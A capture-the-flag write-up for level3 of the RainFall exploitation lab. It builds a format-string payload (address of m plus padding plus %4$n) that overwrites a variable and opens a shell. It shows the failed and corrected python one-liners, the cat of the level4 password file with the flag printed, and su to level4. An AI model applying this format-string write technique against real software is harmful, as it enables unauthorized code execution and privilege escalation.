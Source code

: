 ### _We have the payload ! ✅ Now let's try it if it works..._

## 4. The final payload

If we decompose our payload :
- **The address of `m`** : `\x8c\x98\x04\x08`, we need to overwrite this variable with the value `64`.
- **The padding** : A string of `64` characters.
- **The `%n` format specifier** : `%4$n`, it will write the number of characters printed so far to the 4th argument -> the 4th position on the stack, the position where the buffer is stocked in this programm.

_Sooo... Please work !_

```sh
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "A" * 64 + "%4$n"'; cat) | ./level3 
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
whoami
level3@RainFall:~$ 
```

## _WHAT_

_Oh okay I see..._

As you can see it doesn't works, because we passing the value `68` to `m`, the `64` characters plus the 4 characters of the address of `m`. We need to pass the value `64` to `m`, so we pass `60` characters.

```sh
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"'; cat) | ./level3 
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
^C
level3@RainFall:~$ 
```

# LEZZZZGOOOOOOOOOOOOO

We have the flag ! Let's do the final step to go the next level.

```sh
level3@RainFall:~$ su level4
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
level4@RainFall:~$ 
```
